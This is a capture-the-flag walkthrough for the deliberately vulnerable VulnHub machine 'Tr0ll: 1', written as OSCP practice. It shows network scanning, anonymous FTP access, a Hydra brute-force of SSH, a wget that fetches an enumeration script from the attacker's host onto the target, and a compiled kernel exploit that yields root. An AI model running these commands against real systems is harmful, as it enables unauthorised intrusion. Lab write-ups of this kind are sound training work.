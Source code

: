 ```yaml
---
title: "Tr0ll: 1 Walkthrough"
author: alex
date: Sat 8 Jul 19:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-07-tr0ll-walkthrough
---
```


## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Wireshark
- Linux Exploit Suggester
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.12    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.12
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

This way, we get more information about the victim. Let's have a look:

```
Nmap scan report for 192.168.1.12
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)

MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

![FTP](/ftp.png)

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

```bash
get lol.pcap
```
   
![sup3rs3cr3tdirlol](/supersecretdir.png)

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
\n
Sucks, you were so close... gotta TRY HARDER!\n
```

Isn't it obvious? Let's open Firefox and look for: `http://192.168.1.12/sup3rs3cr3tdirlol/`

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

```bash
strings roflmao
```

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

![Strings](/strings.png)

Another directory? Hell yeah! `http://192.168.1.12/0x0856BF/`

More files. This time looks like we get some usernames and a Pass.txt. Let's try to brute force **SSH** with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but **Pass.txt**!

```bash
sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 
```

Note I have made a text document with the usernames. And quickly we find a valid combination:

![Brute Force with Hydra](/hydra.png)

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

```bash
/bin/bash -i
```

## Enumeration

Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the **Linux Exploit Suggester** script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

```bash
sudo service apache2 start
```

Now, in **tr0ll** machine, inside `tmp` folder:

```bash
wget http://192.168.1.23/Enumeration/les.sh
```

Now we should give permissions to the file:

```bash
chmod 777 les.sh
```

And run it:

```bash
./les.sh
```

Now we know that this machine is specifically vulnerable to:

![Linux Exploit Suggester](/exploit.png)

## Exploitation

Now we only need to compile the exploit, give permissions and run it:

```bash
gcc exploit.c -o exploit
chmod 777 exploit
./exploit
```

![Root](/root.png)

And we should see a root shell now! Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

![Proof](/proof.png)